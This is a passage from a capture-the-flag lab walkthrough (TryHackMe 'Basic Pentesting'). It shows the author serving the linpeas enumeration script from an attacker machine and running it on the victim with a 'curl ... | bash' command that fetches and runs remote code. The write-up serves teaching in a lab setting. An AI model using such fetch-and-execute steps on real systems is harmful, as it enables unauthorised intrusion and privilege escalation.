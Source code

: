 ## What service do you use to access the server(answer in abbreviation in all caps)?

You know the answer already. We find our ssh credentials.So answer is SSH.

## Enumerate the machine to find any vectors for privilege escalation
Here we can use Some enumeration scripts such as linpeas , pspy. In this case I'm using linpeas. You can download linpeas from here.
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

Now we need put this script into our machine. In that case we can make a simple python HTTP server to upload the script to our victim's machine.

```bash
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting/www]
└──╼ $cp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting/www]
└──╼ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Now we can use our credentials to log into the machine. 
executing linpeas.sh 

```bash
jan@basic2:~$ curl 10.9.3.26:8000/linpeas.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
 29  333k   29   98k    0     0   102k      0  0:00:03 --:--:--  0:00:03  102k
```